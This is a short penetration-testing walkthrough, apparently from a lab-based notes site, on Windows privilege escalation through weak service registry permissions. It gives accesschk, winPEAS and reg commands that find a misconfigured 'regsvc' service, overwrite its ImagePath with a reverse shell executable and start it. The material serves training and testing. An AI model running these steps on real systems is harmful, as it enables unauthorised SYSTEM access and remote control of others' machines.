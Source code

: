 # Weak Registry Permissions

The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.

```
accesschk.exe -accepteula -wuvc "Everyone" *
accesschk.exe -accepteula -wuvc "Users" *
accesschk.exe -accepteula -wuvc "Authenticated Users" *
```

Run winPEAS to check for service misconfigurations:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (76).png>)

Note that the “regsvc” service has a weak registry entry. We can confirm this with PowerShell:

```
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```

![](<../../../../.gitbook/assets/image (87) (1).png>)

Alternatively accesschk.exe can be used to confirm:

```
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

![](<../../../../.gitbook/assets/image (94) (1).png>)

verify that we can start the service:

```
accesschk.exe /accepteula -ucqv user regsvc
```

![](<../../../../.gitbook/assets/image (104) (1).png>)

now lets check the current value of the service registry entry:

```
reg query HKLM\System\CurrentControlSet\Services\regsvc
```

![](<../../../../.gitbook/assets/image (99).png>)

Overwrite the ImagePath registry key to point to our reverse shell executable:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

![](<../../../../.gitbook/assets/image (73).png>)

Start a listener on Kali, and then start the service to trigger the exploit:

```
 net start regsvc
```

![](<../../../../.gitbook/assets/image (95).png>)
